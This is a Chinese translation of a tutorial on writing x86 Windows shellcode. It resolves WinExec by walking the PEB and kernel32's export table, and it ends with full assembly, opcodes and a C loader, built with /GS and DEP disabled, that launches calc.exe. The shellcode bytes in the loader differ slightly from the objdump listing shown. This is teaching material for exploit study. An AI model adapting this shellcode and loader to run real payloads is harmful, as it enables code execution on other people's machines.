

##### 翻译自 [这里](https://idafchev.github.io/exploit/2017/09/26/writing_windows_shellcode.html)，转发请标注原作者
***

### 介绍

本教程适用于 x86 32 位 shellcode。 Windows shellcode 比 Linux 的 shellcode 更难编写，你马上就会知道为什么。首先，我们需要对 Windows 架构有一个基本的了解，如下图所示，请好好了解。分割线上方的所有内容都处于用户模式，下方的所有内容都处于内核模式。


与 Linux 不同的是，在 Windows 中，应用程序不能直接访问系统调用。相反，它们使用来自 Windows API (WinAPI) 的函数，这些函数在内部调用来自 Native API (NtAPI) 的函数，而后者又使用系统调用。Native API 函数未文档化，并且在*ntdll*中实现，从上图可以看出，它是用户模式代码的最低抽象级别。

Windows API 的文档化函数在kernel32.dll、advapi32.dll、gdi32.dll等dll中。基本服务（如文件系统、进程、设备等）由*kernel32.dll*提供。

因此，要为 Windows 编写 shellcode，我们需要使用WinAPI或NtAPI中的函数。但是我们应该怎么做？

*ntdll.dll* 和 *kernel32.dll* 非常重要，每个进程都会导入它们。

为了验证这个我使用[ListDlls](https://docs.microsoft.com/en-us/sysinternals/downloads/listdlls)。

这是前四个被explorer.exe加载的DLL。


这是被notepad.exe加载的前四个DLL。


我也写了一个小的汇编程序，虽然它什么都没有做，但是它还是加载了3个DLL。


注意DLL的基地址，它们在进程之间是相同的，因为它们只在内存中加载一次，然后在需要时由另一个进程用指针/句柄引用。这样做是为了节省内存。但是这些地址会因不同的机器和重新启动而有所不同。

我要编写的shellcode很简单，它的唯一功能是执行calc.exe。为此，我将使用WinExec函数，该函数只有两个参数，该函数由kernel32.dll导出。

### 发现DLL基地址

[线程环境块 (TEB)](https://en.wikipedia.org/wiki/Win32_Thread_Information_Block)是每个线程唯一的结构，驻留在内存中并保存有关线程的信息。TEB的地址保存在FS段寄存器中。

TEB的字段之一是指向[进程环境块(PEB)](https://en.wikipedia.org/wiki/Process_Environment_Block)结构的指针，该结构保存有关进程的信息。指向PEB的指针是TEB后的*0x30*bytes。

在0x0C字节处，PEB包含指向[PEB_LDR_DATA](https://www.nirsoft.net/kernel_struct/vista/PEB_LDR_DATA.html)结构的指针，该结构提供有关加载的DLL的信息。它有指向三个双向链表的指针，其中两个对于我们的目的来说特别有趣。其中一个列表是*InInitializationOrderModuleList*，它按照它们的初始化顺序保存DLL，另一个是*InMemoryOrderModuleList*，它按照它们在内存中出现的顺序保存DLL。指向后者的指针存储在从PEB_LDR_DATA结构开始的0x14字节处。DLL的基地址存储在其列表条目连接下方的0x10字节处。

在Vista之前的Windows版本中，InInitializationOrderModuleList中的前两个DLL是ntdll.dll和kernel32.dll，但对于Vista及更高版本，第二个DLL更改为kernelbase.dll。

所以要找到kernel32.dll的地址，我们必须遍历几个内存结构。步骤是

1. 使用fs:0x30获取 PEB 的地址
2. 获取 PEB_LDR_DATA 的地址（偏移量 为 0x0C）
3. 获取 InMemoryOrderModuleList 中第一个列表条目的地址（偏移量 0x14）
4. 获取 InMemoryOrderModuleList 中第二个（ntdll.dll）列表条目的地址（偏移量 0x00）
5. 获取 InMemoryOrderModuleList 中第三个（kernel32.dll）列表条目的地址（偏移量 0x00）
6. 获取 kernel32.dll 的基地址（偏移量 0x10）
   
汇编实现
```assembly
mov ebx, fs:0x30	; 得到PEB指针
mov ebx, [ebx + 0x0C] ; 得到 PEB_LDR_DATA 指针
mov ebx, [ebx + 0x14] ; 获取指向 InMemoryOrderModuleList 中第一个条目的指针
mov ebx, [ebx]		; 获取指向 InMemoryOrderModuleList 中第二个 (ntdll.dll) 条目的指针
mov ebx, [ebx]		; 获取指向 InMemoryOrderModuleList 中第三个 (kernel32.dll) 条目的指针
mov ebx, [ebx + 0x10] ; 获取 kernel32.dll 基地址
```
他们说一图胜千言，所以我做了一个图片来说明这个过程。在新标签页中打开它，放大并仔细查看。


在学习 Windows shellcode（和一般的汇编）时，[WinREPL](https://github.com/zerosum0x0/WinREPL) 对于在每条汇编指令之后查看结果非常有用。


### 发现函数地址

现在我们有了 kernel32.dll 的基地址，是时候找到 WinExec 函数的地址了。为此，我们需要遍历 DLL 的多个标头。您应该熟悉 PE 可执行文件的格式。熟悉 [PEView] (http://wjradburn.com/software/)并查看一些很棒的文件格式插图。

相对虚拟地址 (RVA) 是相对于 PE 可执行文件在内存中加载时的基地址的地址（当可执行文件在磁盘上时，RVA 不等于文件偏移量！）。

* 在 PE 格式中，以 0x3C 字节为固定的 RVA ，存储着为 0x5045 的 PE 签名 。
* PE 签名后的 0x78 字节是导出表的 RVA。
* 从导出表开始的 0x14 字节存储 DLL 导出的函数的数量。从导出表开始的 0x1C 字节存储地址表的 RVA，它保存函数地址。
* 从导出表开始的 0x20 字节存储名称指针表的 RVA，它保存指向函数名称（字符串）的指针。
* 从导出表开始的 0x24 字节存储了 序数表 的 RVA，它保存了函数在地址表中的位置。

因此，要找到 WinExec，我们必须

1. 找到PE签名的RVA（基地址+0x3C字节）
2. 找到PE签名的地址（基地址+PE签名的RVA）
3. 查找导出表的RVA（PE签名地址+0x78字节）
4. 查找导出表的地址（基地址+导出表的RVA）
5. 导出函数的个数（导出表的地址+0x14字节）
6. 查找地址表的RVA（导出表地址+0x1C）
7. 查找地址表的地址（基地址+地址表的RVA）
8. 找到名称指针表的RVA（Export Table的地址+0x20字节）
9. 找到名称指针表的地址（基地址+名称指针表的RVA）
10. 序数表的RVA（导出表的地址+0x24字节）
11. 查找序数表的地址（基地址+序数表的RVA）
12. 遍历名称指针表，将每个字符串（名称）与“WinExec”进行比较并记录位置。
13. 从序数表中查找 WinExec 序号（序数表的地址 +（位置 * 2）字节）。序数表中的每个条目是 2 个字节。
14. 从地址表中找到函数 RVA（地址表的地址 + (序号* 4) 个字节）。地址表中的每个条目是 4 个字节
15. 查找函数地址（基地址+函数RVA）
    

### 调用函数
### 写shellcode
### 测试shellcode

使用PEview看的更直接


汇编实现

```assembly
; Establish a new stack frame
push ebp
mov ebp, esp

sub esp, 18h 			; Allocate memory on stack for local variables

; push the function name on the stack
xor esi, esi
push esi			; null termination
push 63h
pushw 6578h
push 456e6957h
mov [ebp-4], esp 		; var4 = "WinExec\x00"

; Find kernel32.dll base address
mov ebx, fs:0x30
mov ebx, [ebx + 0x0C] 
mov ebx, [ebx + 0x14] 
mov ebx, [ebx]	
mov ebx, [ebx]	
mov ebx, [ebx + 0x10]		; ebx holds kernel32.dll base address
mov [ebp-8], ebx 		; var8 = kernel32.dll base address

; Find WinExec address
mov eax, [ebx + 3Ch]		; RVA of PE signature
add eax, ebx       		; Address of PE signature = base address + RVA of PE signature
mov eax, [eax + 78h]		; RVA of Export Table
add eax, ebx 			; Address of Export Table

mov ecx, [eax + 24h]		; RVA of Ordinal Table
add ecx, ebx 			; Address of Ordinal Table
mov [ebp-0Ch], ecx 		; var12 = Address of Ordinal Table

mov edi, [eax + 20h] 		; RVA of Name Pointer Table
add edi, ebx 			; Address of Name Pointer Table
mov [ebp-10h], edi 		; var16 = Address of Name Pointer Table

mov edx, [eax + 1Ch] 		; RVA of Address Table
add edx, ebx 			; Address of Address Table
mov [ebp-14h], edx 		; var20 = Address of Address Table

mov edx, [eax + 14h] 		; Number of exported functions

xor eax, eax 			; counter = 0

.loop:
        mov edi, [ebp-10h] 	; edi = var16 = Address of Name Pointer Table
        mov esi, [ebp-4] 	; esi = var4 = "WinExec\x00"
        xor ecx, ecx

        cld  			; set DF=0 => process strings from left to right
        mov edi, [edi + eax*4]	; Entries in Name Pointer Table are 4 bytes long
        			; edi = RVA Nth entry = Address of Name Table * 4
        add edi, ebx       	; edi = address of string = base address + RVA Nth entry
        add cx, 8 		; Length of strings to compare (len('WinExec') = 8)
        repe cmpsb        	; Compare the first 8 bytes of strings in 
        			; esi and edi registers. ZF=1 if equal, ZF=0 if not
        jz start.found

        inc eax 		; counter++
        cmp eax, edx    	; check if last function is reached
        jb start.loop 		; if not the last -> loop

        add esp, 26h      		
        jmp start.end 		; if function is not found, jump to end

.found:
	; the counter (eax) now holds the position of WinExec

        mov ecx, [ebp-0Ch]	; ecx = var12 = Address of Ordinal Table
        mov edx, [ebp-14h]  	; edx = var20 = Address of Address Table

        mov ax, [ecx + eax*2] 	; ax = ordinal number = var12 + (counter * 2)
        mov eax, [edx + eax*4] 	; eax = RVA of function = var20 + (ordinal * 4)
        add eax, ebx 		; eax = address of WinExec = 
        			; = kernel32.dll base address + RVA of WinExec

.end:
	add esp, 26h		; clear the stack
	pop ebp
	ret
```

### 调用函数

剩下的是使用适当的参数调用 WinExec

```assembly
xor edx, edx
push edx		; null termination
push 6578652eh
push 636c6163h
push 5c32336dh
push 65747379h
push 535c7377h
push 6f646e69h
push 575c3a43h
mov esi, esp   ; esi -> "C:\Windows\System32\calc.exe"

push 10  ; window state SW_SHOWDEFAULT
push esi ; "C:\Windows\System32\calc.exe"
call eax ; WinExec
```

### 写shellcode

现在您已经熟悉了 Windows shellcode 的基本原理，是时候编写它了。它与我已经展示的代码片段没有太大区别，只需将它们粘合在一起，但有细微差别以避免空字节。我使用 flat assembler 来测试我的代码。

指令“mov ebx, fs:0x30”包含三个空字节。避免这种情况的一种方法是将其写为

```assembly
xor esi, esi	; esi = 0
mov ebx, [fs:30h + esi]
```


完整的汇编实现

```assembly
format PE console
use32
entry start

  start:
        push eax ; Save all registers
        push ebx
        push ecx
        push edx
        push esi
        push edi
        push ebp

	; Establish a new stack frame
	push ebp
	mov ebp, esp

	sub esp, 18h 			; Allocate memory on stack for local variables

	; push the function name on the stack
	xor esi, esi
	push esi			; null termination
	push 63h
	pushw 6578h
	push 456e6957h
	mov [ebp-4], esp 		; var4 = "WinExec\x00"

	; Find kernel32.dll base address
	xor esi, esi			; esi = 0
        mov ebx, [fs:30h + esi]  	; written this way to avoid null bytes
	mov ebx, [ebx + 0x0C] 
	mov ebx, [ebx + 0x14] 
	mov ebx, [ebx]	
	mov ebx, [ebx]	
	mov ebx, [ebx + 0x10]		; ebx holds kernel32.dll base address
	mov [ebp-8], ebx 		; var8 = kernel32.dll base address

	; Find WinExec address
	mov eax, [ebx + 3Ch]		; RVA of PE signature
	add eax, ebx       		; Address of PE signature = base address + RVA of PE signature
	mov eax, [eax + 78h]		; RVA of Export Table
	add eax, ebx 			; Address of Export Table

	mov ecx, [eax + 24h]		; RVA of Ordinal Table
	add ecx, ebx 			; Address of Ordinal Table
	mov [ebp-0Ch], ecx 		; var12 = Address of Ordinal Table

	mov edi, [eax + 20h] 		; RVA of Name Pointer Table
	add edi, ebx 			; Address of Name Pointer Table
	mov [ebp-10h], edi 		; var16 = Address of Name Pointer Table

	mov edx, [eax + 1Ch] 		; RVA of Address Table
	add edx, ebx 			; Address of Address Table
	mov [ebp-14h], edx 		; var20 = Address of Address Table

	mov edx, [eax + 14h] 		; Number of exported functions

	xor eax, eax 			; counter = 0

	.loop:
	        mov edi, [ebp-10h] 	; edi = var16 = Address of Name Pointer Table
	        mov esi, [ebp-4] 	; esi = var4 = "WinExec\x00"
	        xor ecx, ecx

	        cld  			; set DF=0 => process strings from left to right
	        mov edi, [edi + eax*4]	; Entries in Name Pointer Table are 4 bytes long
	        			; edi = RVA Nth entry = Address of Name Table * 4
	        add edi, ebx       	; edi = address of string = base address + RVA Nth entry
	        add cx, 8 		; Length of strings to compare (len('WinExec') = 8)
	        repe cmpsb        	; Compare the first 8 bytes of strings in 
	        			; esi and edi registers. ZF=1 if equal, ZF=0 if not
	        jz start.found

	        inc eax 		; counter++
	        cmp eax, edx    	; check if last function is reached
	        jb start.loop 		; if not the last -> loop

	        add esp, 26h      		
	        jmp start.end 		; if function is not found, jump to end

	.found:
		; the counter (eax) now holds the position of WinExec

	        mov ecx, [ebp-0Ch]	; ecx = var12 = Address of Ordinal Table
	        mov edx, [ebp-14h]  	; edx = var20 = Address of Address Table

	        mov ax, [ecx + eax*2] 	; ax = ordinal number = var12 + (counter * 2)
	        mov eax, [edx + eax*4] 	; eax = RVA of function = var20 + (ordinal * 4)
	        add eax, ebx 		; eax = address of WinExec = 
	        			; = kernel32.dll base address + RVA of WinExec

	        xor edx, edx
		push edx		; null termination
		push 6578652eh
		push 636c6163h
		push 5c32336dh
		push 65747379h
		push 535c7377h
		push 6f646e69h
		push 575c3a43h
		mov esi, esp		; esi -> "C:\Windows\System32\calc.exe"

		push 10  		; window state SW_SHOWDEFAULT
		push esi 		; "C:\Windows\System32\calc.exe"
		call eax 		; WinExec

		add esp, 46h		; clear the stack

	.end:
		
		pop ebp 		; restore all registers and exit
		pop edi
		pop esi
		pop edx
		pop ecx
		pop ebx
		pop eax
		ret
```

在 IDA 中打开它以展示更好的可视化效果。 IDA并没有保存所有的寄存器，我后来添加了这个，但是懒得做新的截图。


使用 fasm 编译，然后反编译并提取操作码。我们很幸运，没有空字节。

```
objdump -d -M intel shellcode.exe
```
```assembly
 401000:       50                      push   eax
  401001:       53                      push   ebx
  401002:       51                      push   ecx
  401003:       52                      push   edx
  401004:       56                      push   esi
  401005:       57                      push   edi
  401006:       55                      push   ebp
  401007:       89 e5                   mov    ebp,esp
  401009:       83 ec 18                sub    esp,0x18
  40100c:       31 f6                   xor    esi,esi
  40100e:       56                      push   esi
  40100f:       6a 63                   push   0x63
  401011:       66 68 78 65             pushw  0x6578
  401015:       68 57 69 6e 45          push   0x456e6957
  40101a:       89 65 fc                mov    DWORD PTR [ebp-0x4],esp
  40101d:       31 f6                   xor    esi,esi
  40101f:       64 8b 5e 30             mov    ebx,DWORD PTR fs:[esi+0x30]
  401023:       8b 5b 0c                mov    ebx,DWORD PTR [ebx+0xc]
  401026:       8b 5b 14                mov    ebx,DWORD PTR [ebx+0x14]
  401029:       8b 1b                   mov    ebx,DWORD PTR [ebx]
  40102b:       8b 1b                   mov    ebx,DWORD PTR [ebx]
  40102d:       8b 5b 10                mov    ebx,DWORD PTR [ebx+0x10]
  401030:       89 5d f8                mov    DWORD PTR [ebp-0x8],ebx
  401033:       31 c0                   xor    eax,eax
  401035:       8b 43 3c                mov    eax,DWORD PTR [ebx+0x3c]
  401038:       01 d8                   add    eax,ebx
  40103a:       8b 40 78                mov    eax,DWORD PTR [eax+0x78]
  40103d:       01 d8                   add    eax,ebx
  40103f:       8b 48 24                mov    ecx,DWORD PTR [eax+0x24]
  401042:       01 d9                   add    ecx,ebx
  401044:       89 4d f4                mov    DWORD PTR [ebp-0xc],ecx
  401047:       8b 78 20                mov    edi,DWORD PTR [eax+0x20]
  40104a:       01 df                   add    edi,ebx
  40104c:       89 7d f0                mov    DWORD PTR [ebp-0x10],edi
  40104f:       8b 50 1c                mov    edx,DWORD PTR [eax+0x1c]
  401052:       01 da                   add    edx,ebx
  401054:       89 55 ec                mov    DWORD PTR [ebp-0x14],edx
  401057:       8b 50 14                mov    edx,DWORD PTR [eax+0x14]
  40105a:       31 c0                   xor    eax,eax
  40105c:       8b 7d f0                mov    edi,DWORD PTR [ebp-0x10]
  40105f:       8b 75 fc                mov    esi,DWORD PTR [ebp-0x4]
  401062:       31 c9                   xor    ecx,ecx
  401064:       fc                      cld
  401065:       8b 3c 87                mov    edi,DWORD PTR [edi+eax*4]
  401068:       01 df                   add    edi,ebx
  40106a:       66 83 c1 08             add    cx,0x8
  40106e:       f3 a6                   repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
  401070:       74 0a                   je     0x40107c
  401072:       40                      inc    eax
  401073:       39 d0                   cmp    eax,edx
  401075:       72 e5                   jb     0x40105c
  401077:       83 c4 26                add    esp,0x26
  40107a:       eb 3f                   jmp    0x4010bb
  40107c:       8b 4d f4                mov    ecx,DWORD PTR [ebp-0xc]
  40107f:       8b 55 ec                mov    edx,DWORD PTR [ebp-0x14]
  401082:       66 8b 04 41             mov    ax,WORD PTR [ecx+eax*2]
  401086:       8b 04 82                mov    eax,DWORD PTR [edx+eax*4]
  401089:       01 d8                   add    eax,ebx
  40108b:       31 d2                   xor    edx,edx
  40108d:       52                      push   edx
  40108e:       68 2e 65 78 65          push   0x6578652e
  401093:       68 63 61 6c 63          push   0x636c6163
  401098:       68 6d 33 32 5c          push   0x5c32336d
  40109d:       68 79 73 74 65          push   0x65747379
  4010a2:       68 77 73 5c 53          push   0x535c7377
  4010a7:       68 69 6e 64 6f          push   0x6f646e69
  4010ac:       68 43 3a 5c 57          push   0x575c3a43
  4010b1:       89 e6                   mov    esi,esp
  4010b3:       6a 0a                   push   0xa
  4010b5:       56                      push   esi
  4010b6:       ff d0                   call   eax
  4010b8:       83 c4 46                add    esp,0x46
  4010bb:       5d                      pop    ebp
  4010bc:       5f                      pop    edi
  4010bd:       5e                      pop    esi
  4010be:       5a                      pop    edx
  4010bf:       59                      pop    ecx
  4010c0:       5b                      pop    ebx
  4010c1:       58                      pop    eax
  4010c2:       c3                      ret
```

最后一步是测试它是否有效。您可以使用一个简单的 C 程序来执行此操作。

```c
#include <stdio.h>

unsigned char sc[] = 	"\x50\x53\x51\x52\x56\x57\x55\x89"
			"\xe5\x83\xec\x18\x31\xf6\x56\x6a"
			"\x63\x66\x68\x78\x65\x68\x57\x69"
			"\x6e\x45\x89\x65\xfc\x31\xf6\x64"
			"\x8b\x5e\x30\x8b\x5b\x0c\x8b\x5b"
			"\x14\x8b\x1b\x8b\x1b\x8b\x5b\x10"
			"\x89\x5d\xf8\x31\xc0\x8b\x43\x3c"
			"\x01\xd8\x8b\x40\x78\x01\xd8\x8b"
			"\x48\x24\x01\xd9\x89\x4d\xf4\x8b"
			"\x78\x20\x01\xdf\x89\x7d\xf0\x8b"
			"\x50\x1c\x01\xda\x89\x55\xec\x8b"
			"\x58\x14\x31\xc0\x8b\x55\xf8\x8b"
			"\x7d\xf0\x8b\x75\xfc\x31\xc9\xfc"
			"\x8b\x3c\x87\x01\xd7\x66\x83\xc1"
			"\x08\xf3\xa6\x74\x0a\x40\x39\xd8"
			"\x72\xe5\x83\xc4\x26\xeb\x41\x8b"
			"\x4d\xf4\x89\xd3\x8b\x55\xec\x66"
			"\x8b\x04\x41\x8b\x04\x82\x01\xd8"
			"\x31\xd2\x52\x68\x2e\x65\x78\x65"
			"\x68\x63\x61\x6c\x63\x68\x6d\x33"
			"\x32\x5c\x68\x79\x73\x74\x65\x68"
			"\x77\x73\x5c\x53\x68\x69\x6e\x64"
			"\x6f\x68\x43\x3a\x5c\x57\x89\xe6"
			"\x6a\x0a\x56\xff\xd0\x83\xc4\x46"
			"\x5d\x5f\x5e\x5a\x59\x5b\x58\xc3";

int main()
{
	((void(*)())sc)();
	return 0;
}
```

要在 Visual Studio 中成功运行它，您必须在禁用某些保护的情况下对其进行编译
* Security Check: Disabled (/GS-)
* Data Execution Prevention (DEP): No


### 后记

如果您在 Windows 10 以外的操作系统上运行它，您会发现它无法正常工作。这是一个挑战自己并尝试通过调试 shellcode 和谷歌搜索可能导致此类行为的原因来自行修复它的好机会。这是一个有趣的问题:)

如果您无法修复（或不想修复），您可以在下面找到正确的 shellcode 和错误原因……

解释： 根据编译器选项，程序可以将栈对齐到 2、4 或更多字节边界（应为 2 的幂）。此外，某些函数可能期望栈以某种方式对齐。

对齐是出于优化原因而完成的，您可以在此处阅读有关它的很好的解释：[栈对齐](https://stackoverflow.com/questions/672461/what-is-stack-alignment)。

如果您尝试调试 shellcode，您可能已经注意到问题在于返回“ERROR_NOACCESS”错误代码的 WinExec 函数，尽管它应该可以访问 calc.exe.

如果您阅读这篇 [msdn](https://msdn.microsoft.com/en-us/library/83ythb65.aspx) 文章，您将看到以下内容：“Visual C++ 通常根据目标处理器和数据大小在自然边界上对齐数据，在 32 位处理器上最多 4 字节边界，而在 64 位处理器上的最多 8 字节边界”。我假设相同的对齐设置用于构建system DLL。

因为我们正在执行 32 位架构的代码，WinExec 函数可能希望堆栈对齐到 4 字节边界。这意味着一个 2 字节的变量将保存在 2 的倍数的地址，而一个 4 字节的变量将保存在 4 的倍数的地址。例如，取两个变量，2 字节和 4 字节的大小。如果 2 字节变量位于地址 0x0004，则 4 字节变量将放置在地址 0x0008。这意味着在 2 字节变量之后有 2 字节填充。这也是为什么有时为局部变量在堆栈上分配的内存大于必要的原因。

下面显示的部分（将“WinExec”字符串压入堆栈的位置）弄乱了对齐方式，导致 WinExec 失败。

```assembly
; push the function name on the stack
xor esi, esi
push esi		; null termination
push 63h
pushw 6578h		;  THIS PUSH MESSED THE ALIGNMENT
push 456e6957h
mov [ebp-4], esp 	; var4 = "WinExec\x00"
```

为了修复它我们需要改成

```assembly
; push the function name on the stack
xor esi, esi		; null termination
push esi                        
push 636578h		; NOW THE STACK SHOULD BE ALLIGNED PROPERLY
push 456e6957h
mov [ebp-4], esp	; var4 = "WinExec\x00"
```

它在 Windows 10 上运行的原因可能是因为 WinExec 不再需要对齐堆栈

您可以在下面看到说明的堆栈对齐问题


通过修复，堆栈对齐到 4 个字节：


